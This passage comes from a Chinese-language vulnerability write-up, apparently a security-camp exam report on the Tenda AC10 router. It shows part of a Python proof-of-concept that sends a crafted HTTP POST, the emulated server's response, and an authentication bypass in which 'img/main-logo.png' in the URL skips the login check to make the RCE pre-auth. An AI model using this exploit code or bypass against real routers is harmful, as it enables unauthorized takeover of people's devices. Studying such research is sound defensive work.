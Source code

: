 ```python3!
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

但發現 server 端並不會出現 segmentation fault 或 crash 的情況，猜測是 server 為 user-mode 所模擬的，並沒辦法完整複製 router 的行為導致沒辦法成功複現。

```shell
$ python3 so.py
HTTP/1.1 200 OK
Content-type: text/plain; charset=utf-8
Pragma: no-cache
Cache-Control: no-cache

{"errCode":0}
```

### Bonus-3. Post-auth to Pre-auth

參考 [2.] 的報告，由於 `R7WebsSecurityHandler()` 這裡的邏輯有漏洞，可以簡單地繞過驗證。從下圖中可以看出，router handler 的檢查是只要在 url 裡發現有 `img/main-logo.png` 的字串，不管在哪個位置都會略過登入的驗證，因此我們只要構造類似 `http://{server}/some/login/required/path?a=img/main-logo.png` 的封包，就可以在不影響我們原有的 POC 情況下直接達成 Pre-auth RCE。

![R7WebsSecurityHandler](./2024-t5-security-camp-prexam/R7WebsSecurityHandler.png)

## Ref.

1. [Tenda AC10 (V15.03.06.26) has an command injection vulnerability](https://github.com/DaDong-G/Vulnerability_info/blob/main/ac10_command_injection/Readme.md)
2. [CVE-2021-44971 bypass_auth](https://github.com/21Gun5/my_cve/blob/main/tenda/bypass_auth.md)
3. [Tenda AC10V15.03.06.23 Stack overflow vulnerability](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/fromSetIpMacBind/readme.md)
